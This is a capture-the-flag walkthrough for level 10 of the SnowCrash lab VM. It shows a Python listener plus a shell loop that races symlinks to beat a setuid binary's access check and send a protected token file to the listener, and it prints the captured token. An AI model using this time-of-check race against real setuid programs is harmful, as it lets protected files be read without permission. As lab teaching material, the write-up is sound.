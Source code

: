 # Level10

There is an executable file called `level10`. Upon execution:
```
./level10 file host sends file to host if you have access to it
```

After testing some arguments, it seems the executable is expecting a file as the first argument, and a host as the second argument.

Also present in the home directory is a `token` file. Assuming we will pass the token as our first argument, let's create the host for the second argument using python.

```python
import socket
import signal
import sys

HOST = '0.0.0.0'    # Listen on all network interfaces
PORT = 6969         # As hardcoded in the executable

def signal_handler(sig, frame):
    print('Signal received, shutting down server.')
    sys.exit(0)

def main():
    signal.signal(signal.SIGINT, signal_handler)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((HOST, PORT))
    s.listen(1)
    print("Server listening on {}:{}".format(HOST, PORT))
    
    while True:
        conn, addr = s.accept()
        print('New connection:', addr)
        while True:
            data = conn.recv(1024)  # Standard buffer size
            if not data:
                break
            print(data)             # Echo data back to client

if __name__ == '__main__':
    main()

```
Place it somewhere like `/tmp/server.py` and open a new shell to run it. The VM has tmux :)

Now that the server is running, let's try the executable again.
```
level10@SnowCrash:~$ ./level10 token 0.0.0.0
You don't have access to token
```
Let's use a symlink timing exploit to trick the executable into passing the permissions check.
```
echo > /tmp/garbage && while :; do ln -fs /tmp/garbage /tmp/link; ln -fs ~/token /tmp/link; done
```
We'll keep this script running in its own shell as well.
```
level10@SnowCrash:~$ ./level10 /tmp/link 0.0.0.0
You don't have access to /tmp/link
```
Unlucky timing.. keep trying!

```
level10@SnowCrash:~$ ./level10 /tmp/link 0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. wrote file!
```
After a few attempts, the output of the server:
```
('New connection:', ('127.0.0.1', 38979))
.*( )*.
woupa2yuojeeaaed06riuj63c
```
Our token! Now we can `su flag10`, `getflag` and `su level11`